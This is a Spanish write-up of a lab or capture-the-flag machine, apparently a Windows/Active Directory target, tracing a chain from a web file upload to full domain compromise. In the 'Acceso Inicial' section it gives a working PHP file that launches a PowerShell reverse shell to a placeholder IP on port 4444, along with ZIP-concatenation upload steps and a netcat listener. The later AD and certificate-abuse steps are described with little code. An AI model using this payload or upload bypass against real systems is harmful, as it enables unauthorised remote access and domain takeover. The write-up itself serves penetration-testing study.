










---

## Overview

Entorno Windows con aplicación web expuesta conectada a un dominio Active Directory.

El compromiso completo se consigue encadenando múltiples vectores:

- Subida de archivos mediante ZIP concatenation
- Acceso inicial a sistema Windows
- Extracción de credenciales desde base de datos
- Abuso de permisos en Active Directory (ACL Abuse)
- Escalada mediante privilegios locales (SeManageVolumePrivilege)
- Abuso de certificados (ADCS) → Golden Certificate

Este escenario refleja un entorno real donde múltiples debilidades permiten escalar desde acceso web hasta control total del dominio.

---

## Attack Chain Summary

1. Registro en aplicación web → acceso a funcionalidad de subida  
2. ZIP concatenation → ejecución de código remoto  
3. Extracción de credenciales → acceso a dominio  
4. Enumeración AD (BloodHound) → identificación de paths de privilegios  
5. ACL Abuse → control sobre usuarios  
6. Abuso de privilegios locales (SeManageVolumePrivilege)  
7. Abuso de certificados → Golden Certificate  
8. Compromiso total del dominio  

---

# Enumeración Inicial

## Puertos


### Observations

- Aplicación web accesible
- Infraestructura aparentemente orientada a usuarios (profesores/alumnos)
- Posible backend corporativo conectado a AD

---

## Web




Se identifica funcionalidad de registro:




Se crean cuentas de:

- Profesor  
- Alumno  

Solo la cuenta de alumno permite interacción explotable.

---

## Attack Surface – File Upload

Mediante `join` a un curso:




Se habilita subida de archivos.

Punto crítico:
- Procesamiento de archivos por el servidor
- Posible falta de validación

---

# Acceso Inicial

Se explota la funcionalidad de subida mediante ZIP concatenation.
La funcionalidad de subida de archivos representa el punto más prometedor para obtener ejecución de código:

- Entrada controlada por el usuario
- Procesamiento en backend
- Posible validación insuficiente de formatos

Este tipo de vectores son comunes en aplicaciones web orientadas a usuarios.

PASOS para explotar [zip concatenation](https://perception-point.io/blog/evasive-concatenated-zip-trojan-targets-windows-users/)
1. Crear `.pdf` vacio: `touch false.pdf`
2. Comprimir: `zip begin.zip false.pdf`
3. crear `.php` malicioso `malicious_file/shell.php`:

```php
<?php
shell_exec("powershell -nop -w hidden -c \"\$client = New-Object System.Net.Sockets.TCPClient('TU_IP',4444); \$stream = \$client.GetStream(); [byte[]]\$bytes = 0..65535|%{0}; while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){; \$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0,\$i); \$sendback = (iex \$data 2>&1 | Out-String ); \$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> '; \$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2); \$stream.Write(\$sendbyte,0,\$sendbyte.Length); \$stream.Flush()}; \$client.Close()\"");
?>
```

4. combinar ambos zip:  `cat benign.zip malicious.zip > combined.zip`
5. SUBIR `combined.zip`
6. En la respuesta, buscar el lugar donde se ha subido y cambiar el archivo `false.pdf` por `malicious_files/shell.php` junto a `nc -lnvp 4444`


Y voilá!



El acceso obtenido permite ejecutar comandos en el sistema objetivo.

A partir de este punto, el objetivo pasa a ser:

- Identificar credenciales reutilizables
- Determinar si el sistema está unido a dominio
- Buscar rutas de escalada hacia Active Directory


Enumerando, llegamos a encontrar credenciales en texto plano de lo que parede una BBDD.



Abrimos la BBDD y sacamos los hashes:


Guardamos cada uno en un archivo `.hash` diferente e intentamos crackearlo:


La presencia de credenciales y estructura de usuarios sugiere que el sistema está integrado en un dominio Active Directory.

Esto cambia el enfoque:
- De explotación local  
- A compromiso del dominio

Sincronizamos con el DC y ejecutamos bloodhound:


El análisis con BloodHound revela múltiples caminos de escalada.

En lugar de seguir el camino más complejo, se prioriza:

- Control directo sobre usuarios con privilegios (ACL Abuse)
- Combinación con privilegios locales explotables
- Escalada hacia ADCS para impacto máximo

La decisión se basa en eficiencia operativa e impacto.

# Movimiento lateral y Escalada

En bloodhound podemos ver que poseemos `GenericALL` sobre `ryan.k`.


Pero tambien podemos ver si analizamos correctamente, que en caso de añadir a `sara.b` al grupo `IIS_IUSRS`, conseguimos `SeImpersonatePriv`:


Sacamos el NT hash de `Ryan.k`:



Active Directory Certificate Services (ADCS) introduce vectores de ataque críticos cuando está mal configurado.

El abuso de certificados permite:

- Suplantar identidades privilegiadas
- Obtener acceso persistente
- Evadir mecanismos tradicionales de autenticación

En este caso, se utiliza para obtener un Golden Certificate.

Sacamos un certificado después de darnos acceso a `C:\` haciendo uso de `SeManageVolumeExploit.exe`:



Modificamos el certificado para que sea valido para el `administrador` y poder sacar su NTLM:



Sacamos las Flags:


HAPPY HACKING


## Conclusión

Este escenario demuestra cómo:

- Un vector inicial sencillo (file upload)
- Puede escalar hasta compromiso total del dominio

A través de:

- Exposición de credenciales
- Permisos mal configurados en AD
- Abuso de privilegios locales
- Vulnerabilidades en ADCS

El éxito no depende de una técnica aislada, sino de la capacidad de encadenar vectores con criterio.

Este tipo de cadenas es representativo de entornos corporativos reales.